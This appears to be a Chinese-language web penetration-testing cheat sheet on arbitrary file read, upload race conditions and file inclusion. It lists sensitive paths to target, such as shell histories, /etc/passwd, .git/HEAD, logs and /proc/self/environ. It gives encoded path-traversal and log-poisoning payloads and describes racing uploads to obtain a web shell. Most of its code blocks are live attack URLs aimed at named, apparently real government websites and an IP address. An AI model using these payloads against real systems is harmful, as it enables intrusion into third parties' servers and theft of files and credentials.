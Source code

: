 # 文件读取

考虑读取可能有敏感信息的文件

- 用户目录下的敏感文件：.bash_history/.zsh_history/.profile/.bashrc/.gitconfig/.viminfopasswd
- 应用的配置文件：/etc/apache2/apache2.conf, /etc/nginx/nginx.conf
- 应用的日志文件：/var/log/apache2/access.log, /var/log/nginx/access.log
- 站点目录下的敏感文件：.svn/entries.git/HEADWEB-INF/web.xml.htaccess
- 特殊的备份文件：.swp/.swo/.bak/index.php
- Python的Cache：__pycache__\__init__.cpython-35.pyc

```
http://www.gdzwfw.gov.cn/portal/static//..%c1%9c..%c1%9c..%c1%9c..%c1%9c..%c1%9c..%c1%9c..%c1%9c..%c1%9c/windows/win.ini

http://gcjs.jiangmen.cn/framework-ui/src//%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c%2e%2e%5c/etc/passwd

http://zfbz.maoming.gov.cn/css/.svn/entries

http://ggzy.zhuhai.gov.cn:8092/GPC/.git/HEAD
```



# 文件上传

> 竞争上绕过
>
> 有的服务器采用了先保存，再删除不合法文件的方式，在这种服务器中，可以反复上传一个会生成Web Shell的文件并尝试访问，多次之后即可获得Shell

```
http://bbs.968115.cn/backup.sh

```



# 文件包含

常见的文件包含漏洞的形式为 `<?php include("inc/" . $_GET['file']); ?>`

考虑常用的几种包含方式为

- 同目录包含 `file=.htaccess`
- 目录遍历 `?file=../../../../../../../../../var/lib/locate.db`
- 日志注入 `?file=../../../../../../../../../var/log/apache/error.log`
- 利用 `/proc/self/environ`

其中日志可以使用SSH日志或者Web日志等多种日志来源测试

```
http://183.63.186.142:8080/.htaccess
```
